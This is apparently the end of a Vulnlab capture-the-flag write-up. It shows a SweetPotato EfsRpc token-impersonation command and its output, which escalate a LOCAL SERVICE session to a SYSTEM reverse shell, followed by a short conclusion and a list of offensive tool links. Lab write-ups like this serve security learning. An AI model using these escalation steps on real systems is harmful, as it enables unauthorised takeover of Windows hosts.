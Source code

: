 We'll then bring our compiled SweetPotato binary over to the remote host via CURL and execute it on our most recent `LOCAL SERVICE` session.

```
PS C:\temp> .\SweetPotato.exe -p 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -a 'C:\temp\daz2.exe' -e EfsRpc
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
  EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
[+] Attempting NP impersonation using method EfsRpc to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering name pipe access on evil PIPE \\localhost/pipe/64a97836-d71d-4171-86fb-4ee82adf0794/\64a97836-d71d-4171-86fb-4ee82adf0794\64a97836-d71d-4171-86fb-4ee82adf0794
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
```

If we look at our reverse shell window, we can see that a shell was spawned as SYSTEM.

![](/images/vulnlab/media-vl/h.png)

Now that we have a shell as SYSTEM, this means we can effectively read the root flag in the Administrator's Desktop directory, meaning we have completed this machine!

# Conclusion

This machine in particular was very fun, as the steps to learning symlinks was very helpful and is actually a relatively extensive vulnerability in terms of the actions that you can do. Initially, I had tried to create a symlink onto `C:\Windows\System32\wbem` and hijack a DLL that is loaded when `systeminfo` is called, however it did not see as though that could be done. 

Regardless, this machine was great. Big props goes out to enox for creating it.
# Resources

https://support.microsoft.com/en-us/topic/file-types-supported-by-windows-media-player-32d9998e-dc8f-af54-7ba1-e996f74375d9
https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/
https://github.com/Greenwolf/ntlm_theft
https://nixhacker.com/understanding-and-exploiting-symbolic-link-in-windows/
https://www.revshells.com/
https://github.com/itm4n/FullPowers
https://github.com/CCob/SweetPotato

